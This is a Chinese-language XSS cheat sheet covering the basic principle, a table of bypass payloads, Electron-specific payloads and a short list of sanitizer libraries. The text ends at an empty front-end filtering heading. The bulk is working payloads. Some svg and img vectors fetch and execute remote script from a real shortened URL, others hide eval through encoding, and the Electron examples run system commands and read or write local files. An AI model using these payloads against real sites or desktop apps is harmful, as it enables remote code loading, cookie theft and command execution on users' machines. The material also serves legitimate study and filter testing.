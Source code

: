 ## 0x01 XSS漏洞原理

### 1.1 简介	

​	跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

## 0x02 XSS漏洞测试

### 2.1 Bypass

| 标签     | 测试脚本                                                     |
| -------- | ------------------------------------------------------------ |
| svg      | `<svg onload=eval($.get("//t.cn/R5iR4NG")) style=display:none>`<br/>`<svg onload=a=decodeURIComponent("http%3A%2F%2Ft.cn%2FR5iR4NG");$.getScript(a) style=display:none>` |
| img      | `<img src=x style=display:none onerror=s=createElement('script');body.appendChild(s);s.src='//t.cn/R5iR4NG';>` |
| isindex  | `<isindex type=image src=x onerror=alert(/xss/)>`            |
| a        | `<a title='x' onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px></a>` |
| select   | `<select autofocus onfocus=alert(document.domain)>`          |
| textarea | `<textarea autofocus onfocus=alert(document.domain)>`        |
| keygen   | `<keygen autofocus onfocus=alert(document.domain)>`          |
| body     | `<body onload=prompt(document.domain);>`                     |
| embed    | `<embed src="javascript:alert(document.domain)"/>`           |
| video    | `<video><source onerror="javascript:alert(document.domain)">` |
| object   | `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">` |
| iframe   | `<iframe src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=>` |
| meta     | `<meta http-equiv="refresh" content="0; url=data:text/html,%3Cscript%3Ealert%281%29%3C%2fscript%3E">` |
| b        | `<b oncut = alert()>`                                        |
| script   | `<script src=test.jpg>`                                      |
| script   | `<script>z="alert"</script><br/><script>z=z+"(123)"</script><br/><script>eval(z)</script>` |
| div      | `<div id="x">alert%28document.cookie%29%3B</div><br/><p>eval(unescape(x.innerHTML));</p>` |
| script   | `<script>window.open('https://vulnerablesite.com/users/eval(atob(window.name))','YWxlcnQoL3hzcy8p')</script>` |
| script   | `<script>eval.call`${'prompt\x281)'}`</script>`              |
| svg      | `<svg><script>&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#47;&#120;&#115;&#115;&#47;&#41;</script>` |

### 2.2 Electron

​	electron是一个流行的桌面应用开发框架，允许开发者使用web技术和nodejs结合来迅速开发桌面应用，因为引入了JS，所以也引入了XSS漏洞。

- 系统命令

```
<script>require("child_process").exec("calc.exe")</script>
```

- 读写文件

```
<script>require('fs').writeFile('hack.txt','xxxx')</script>
<script>require('fs').readFileSync('c:\\windows\\php.ini')</script>
```

## 0x03 XSS漏洞修复

### 3.1 服务端过滤

- Java：https://owasp.org/www-project-java-html-sanitizer/‘
- .NET：https://github.com/mganss/HtmlSanitizer
- Golang：https://github.com/microcosm-cc/bluemonday
- PHP：http://htmlpurifier.org/
- Python：https://pypi.python.org/pypi/bleach
- Django框架（Python）：https://github.com/shaowenchen/django-xss-cleaner

### 3.2 前端过滤